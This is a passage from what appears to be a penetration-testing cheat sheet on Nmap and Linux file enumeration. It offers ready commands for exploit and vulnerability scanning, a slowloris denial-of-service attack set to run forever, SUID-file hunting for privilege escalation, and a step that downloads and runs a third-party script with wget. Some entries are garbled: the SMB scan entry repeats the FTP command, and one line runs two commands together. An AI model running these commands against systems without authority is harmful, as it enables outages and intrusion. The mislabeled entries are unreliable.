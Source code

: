 *   Nmap Exploit Scripts  
    [_https://nmap.org/nsedoc/categories/exploit.html_](http://web.archive.org/web/20171113221652/https://nmap.org/nsedoc/categories/exploit.html)

*   Nmap search through vulnerability scripts  
    `cd /usr/share/nmap/scripts/ ls -l \*vuln\*`

*   Nmap search through Nmap Scripts for a specific keyword  
    `ls /usr/share/nmap/scripts/\* | grep ftp`

*   Scan for vulnerable exploits with nmap  
    `nmap --script exploit -Pn $ip`

*   NMap Auth Scripts  
    [_https://nmap.org/nsedoc/categories/auth.html_](http://web.archive.org/web/20171113221652/https://nmap.org/nsedoc/categories/auth.html)

*   Nmap Vuln Scanning  
    [_https://nmap.org/nsedoc/categories/vuln.html_](http://web.archive.org/web/20171113221652/https://nmap.org/nsedoc/categories/vuln.html)

*   NMap DOS Scanning  
    `nmap --script dos -Pn $ip NMap Execute DOS Attack nmap --max-parallelism 750 -Pn --script http-slowloris --script-args http-slowloris.runforever=true`

*   Scan for coldfusion web vulnerabilities  
    `nmap -v -p 80 --script=http-vuln-cve2010-2861 $ip`

*   Anonymous FTP dump with Nmap  
    `nmap -v -p 21 --script=ftp-anon.nse $ip-254`

*   SMB Security mode scan with Nmap  
    `nmap -v -p 21 --script=ftp-anon.nse $ip-254`

*   File Enumeration

    *   Find UID 0 files root execution

    *   `/usr/bin/find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \\; 2>/dev/null`

    *   Get handy linux file system enumeration script (/var/tmp)  
        `wget https://highon.coffee/downloads/linux-local-enum.sh` `chmod +x ./linux-local-enum.sh` `./linux-local-enum.sh`

    *   Find executable files updated in August  
        `find / -executable -type f 2> /dev/null | egrep -v "^/bin|^/var|^/etc|^/usr" | xargs ls -lh | grep Aug`

    *   Find a specific file on linux  
        `find /. -name suid\*`

    *   Find all the strings in a file  
        `strings <filename>`

    *   Determine the type of a file  
        `file <filename>`

*   ## [](#http-enumeration)HTTP Enumeration
